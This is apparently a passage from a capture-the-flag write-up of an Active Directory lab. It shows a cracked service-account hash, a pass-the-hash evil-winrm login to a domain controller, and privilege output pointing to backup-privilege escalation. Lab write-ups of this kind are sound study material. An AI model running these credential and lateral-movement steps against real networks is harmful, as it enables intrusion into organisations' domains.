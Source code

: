 The password spraying attack was successful, confirming the hash for `svc_backup`: **`svc_backup:9658d1d1dcd9250115e2205d9f48400d`**.

-----

## Phase 3: Domain Privilege Escalation and Persistence

With the `svc_backup` hash, we gained a foothold into the domain.

### WinRM Access with `svc_backup`

BloodHound confirmed that `svc_backup` was a member of the `Backups` group, which often holds `SeBackupPrivilege` and `SeRestorePrivilege`. We used `evil-winrm` to gain an interactive PowerShell session on the Domain Controller.

![ad_result](images/browser_HsQVElLPvi.png) 
![ad_result](images/browser_Z4s8m7PJkE.png)

```bash
evil-winrm -i 10.129.93.138 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

Once connected, `whoami /priv` was executed to verify the privileges held by `svc_backup`:

```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                          Description                           State
============================= ============================== =======
SeMachineAccountPrivilege       Add workstations to domain      Enabled
SeBackupPrivilege               Back up files and directories   Enabled
SeRestorePrivilege              Restore files and directories   Enabled
SeShutdownPrivilege             Shut down the system            Enabled
SeChangeNotifyPrivilege         Bypass traverse checking        Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
